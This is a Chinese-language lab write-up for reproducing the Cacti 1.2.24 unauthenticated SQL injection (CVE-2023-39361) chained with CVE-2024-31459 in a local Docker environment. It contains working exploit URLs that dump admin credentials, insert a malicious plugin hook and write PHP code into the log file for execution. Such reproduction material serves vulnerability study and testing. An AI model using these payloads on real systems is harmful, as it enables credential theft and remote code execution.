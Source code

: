 # Cacti未授权SQL注入导致远程代码执行漏洞（CVE-2023-39361/CVE-2024-31459）

Cacti是一个全面的网络图形化解决方案，旨在利用RRDTool的数据存储和图形功能，为网络管理员提供直观的界面来监控和分析网络性能数据。

在Cacti 1.2.24及更早版本中，graph_view.php文件存在一个严重的漏洞，当启用guest用户时，未经任何身份验证的攻击者通过'rfilter'参数即可执行SQL注入攻击，最终可能导致远程代码执行。

参考链接：

- <https://github.com/Cacti/cacti/security/advisories/GHSA-6r43-q2fw-5wrg>
- <https://github.com/Cacti/cacti/security/advisories/GHSA-cx8g-hvq8-p2rv>

## 环境搭建

执行以下命令启动Cacti 1.2.24服务器：

```
docker compose up -d
```

服务器启动后，访问`http://your-ip:8080`进入Cacti界面。默认凭据为admin/admin。

请以管理员身份登录并按照初始化说明进行操作。只需重复点击"下一步"按钮，直到看到成功页面。

该漏洞如果需要未认证利用，必须启用guest用户。你可以以管理员身份登录，导航至`Configuration -> Authentication`页面，并启用guest用户：

![](1.png)

## 漏洞复现

该漏洞位于`graph_view.php`文件中的`grow_right_pane_tree`函数内。当action参数设置为'tree_content'时，用户输入的rfilter参数由`html_validate_tree_vars`函数验证。然而，这种验证仅确保输入是有效的正则表达式，无法防止SQL注入。

要利用此漏洞，向graph_view.php端点发送带有以下参数的请求：

```
http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaaaa"%20OR%20""="(("))%20UNION%20SELECT%201,2,(select%20concat(id,0x23,username,0x23,password)%20from%20user_auth%20limit%201),4,5,6,(select%20user()),(select%20version()),9,10%23
```

可见，数据库信息和管理员账号密码已被爆出：

![](2.png)

由于Cacti支持堆叠查询，你可以利用此漏洞结合[CVE-2024-31459](https://github.com/Cacti/cacti/security/advisories/GHSA-cx8g-hvq8-p2rv)实现本地文件包含。

首先，添加一个指向`log/cacti.log`文件的新插件钩子：

```
http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaa"%20OR%20""="(("));INSERT%20INTO%20plugin_hooks(name,hook,file,status)%20VALUES%20(".","login_before","../log/cacti.log",1);%23
```

然后，利用报错SQL注入，将PHP代码写入`log/cacti.log`文件：

```
http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaa"%20OR%20""="(("))%20UNION%20SELECT%201,2,3,4,5,6,updatexml(rand(),concat(0x7e,"<?php%20phpinfo();?>",0x7e),null),8,9,10%23
```

此时，访问登录页面时，PHPINFO函数将执行并显示：

![](3.png)
